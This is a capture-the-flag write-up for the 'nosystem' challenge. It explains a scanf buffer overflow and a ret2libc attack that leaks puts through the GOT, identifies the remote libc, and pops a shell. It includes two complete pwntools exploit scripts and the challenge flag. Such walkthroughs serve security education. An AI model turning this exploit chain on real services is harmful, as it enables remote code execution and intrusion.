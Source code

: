 # nosystem

---

### Challenge Description

> Four. Times. In. A. Row. Okay that's it, i'm just going to remove almost all functionalities in my program. Can't exploit it if there's nothing to exploit right?

> Interact with the service at 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30401

> Concept(s) Required:
> Address Space Layout Randomization, Global Offset Table, Ret2Libc

[nosystem.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330555/nosystem.zip)

---

### Solution

_i suggest you read up on the required concepts before u read any further because i won't be explaining them_

We run the binary and it takes in a username and nothing else.

Reading the source code:

```c

int main()

{

    char username[256];
    
    ... puts(some cool ascii art here)...
    
    printf("Enter Username => ");
    scanf("%s", username);
    printf("Greetings %s!", username);

    return 0;
}
```

Okay. Once again, scanf does not limit our input and we have a buffer overflow. What next?

Heres what ret2libc come in. If we can overflow the buffer, then return to system("/bin/sh") in libc, we can get a shell.

However how the heck do we start you may be wondering? How do I know where LIBC is?

This is where the global offset table comes in (GOT for short). The GOT holds the LIBC addresses of common functions like printf, puts, scanf etc.

If we can find out where the `system()` function is in LIBC we can return to it. 

However, to find out the address of system(), we have to first find the address of `libc.base`.

We cannot find by merely debugging or whatever, as ASLR is enabled.

Definition of [ASLR](https://tinyurl.com/addresslr):  Address Space Layout Randomization (ASLR) is a computer security technique which involves randomly positioning the base address of an executable and the position of libraries, heap, and stack, in a process's address space.

Hence, we have to find all our addresses at runtime, and work with offsets.

Our exploit will be split into 2 parts, the first part will leak the libc base and the second part will pop the shell.

Since we have control over the return pointer, we will be doing this with `Return Oriented Programming Chains`. The idea is that you can basically define the flow of the program by continously returning to functions and gadgets.

From the source code, we can see that `puts()` was called. This means that `puts()` has been imported from the C library aka libc.

So we have talked about GOT holding the address of library functions, but you also have to know that the Procedure Linkage Table (PLT) holds the small instructions to execute these functions.

For our first ROP chain, we will want to leak a function in the global offset table, `puts` is an ideal candidate.

We want to puts(global offset table address) and then return to main() so we can continue sending more ROP chains.

This can be done by popping `puts GOT address` into `RDI` and then calling the `PUTS procedure` to print out the `GOT address of puts`.

```
payload 1 = overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main)
```

We move on to the second part of our exploit.

Now that we have the GOT of puts, which is also the PUTS offset from LIBC , we can find our LIBC base.

```
libc.base = putsgot - libc address of puts
```

Now with our libc base, we can find `system()` and `/bin/sh`.

This allows us to easily craft our next ROP chain:

```
payload2 = overflow + p64(poprdi) + p64(binsh) + p64(system))
```

and gives us our shell.

Now to get into the more technical details. How do we write our ROP chain at runtime?

```
from pwn import * 
p = process('./nosystem')
elf = ELF('nosystem')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
rop = ROP(elf)

# chain 1
overflow = "A"*264
putsgot = elf.got['puts']
putsplt = elf.plt['puts']
main = elf.sym['main']
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
p.clean()
p.sendline(overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main))

# receive putsgot leak
p.recvuntil("@!")
received = p.recvline()
leak = u64(received.ljust(8, "\x00")) # unpack address from bytes into integer
leak = leak - 2814749767106560 # puts prints a newline together with leak hence i remove it
print(hex(leak))

# chain 2
base = leak - libc.sym['puts'] # calculate libc base
libc.address = base
system = libc.sym['system']
binsh = next(libc.search('/bin/sh'))
p.clean()
log.info("base: " + hex(base))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("leak: " + hex(leak))
p.sendline(overflow + p64(poprdi) + p64(binsh) + p64(system))
p.interactive()
```

Uh yeah. Something like that 😸

Okay I'm sure y'all are smart enough to figure that out urself 😜 If you need help feel free to dm me.

Anyways, if you run that locally, congrats! It works.

However, like I mentioned in past pwn writeup, scripts that work locally may not work remotely.

![image](https://user-images.githubusercontent.com/76640319/115136185-b9cd4f00-a050-11eb-81f2-41cc0e11e5be.png)

As you can see, I don't have a shell. What the heck!?

We missed out one crucial step. The server may not be using the same libc as us. Hence we have to leak the libc version as well.

That is simple. 

![image](https://user-images.githubusercontent.com/76640319/115136195-de292b80-a050-11eb-9bfc-6bfb8f2ec99e.png)

We can take our leak `[*] leak: 0x7f28d6d42d60` to help us find the libc.

Even though ASLR is enabled, offset doesnt change. Hence this `puts got address` will be the same for the same libc.

There are only libraries to help us find libc based on offsets.

![image](https://user-images.githubusercontent.com/76640319/115136229-1df01300-a051-11eb-98b4-be99301535d0.png)

https://libc.blukat.me/?q=puts%3A0x7f58444f2d60&l=libc6_2.19-0ubuntu6.15_amd64

We are presented with 3 possible libraries. One way to narrow it down can be leaking more GOT entries, or you can just try them one by one.

![image](https://user-images.githubusercontent.com/76640319/115136269-3f50ff00-a051-11eb-838f-f3a3df32fd16.png)

We download `libc6_2.19-0ubuntu6.15_amd64` and we modify our script, providing the path of this libc.

```py
from pwn import * 
p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30401)
elf = ELF('nosystem')
libc = ELF('libc6_2.19-0ubuntu6.15_amd64.so')
rop = ROP(elf)

# chain 1
overflow = "A"*264
putsgot = elf.got['puts']
putsplt = elf.plt['puts']
main = elf.sym['main']
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
p.clean()
p.sendline(overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main))

# receive putsgot leak
p.recvuntil("@!")
received = p.recvline()
leak = u64(received.ljust(8, "\x00")) # unpack address from bytes into integer
leak = leak - 2814749767106560 # puts prints a newline together with leak hence i remove it
print(hex(leak))

# chain 2
base = leak - libc.sym['puts'] # calculate libc base
libc.address = base
system = libc.sym['system']
binsh = next(libc.search('/bin/sh'))
p.clean()
log.info("base: " + hex(base))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("leak: " + hex(leak))
p.sendline(overflow + p64(poprdi) + p64(binsh) + p64(system))
p.interactive()
```

We 🔥 our script. And voila! 

![image](https://user-images.githubusercontent.com/76640319/115136322-a53d8680-a051-11eb-8acd-1d381bab6634.png)

```
CTFSG{n0_5y5t3m_n0_pr0bl3m_p0p_p0p_r3t}
```
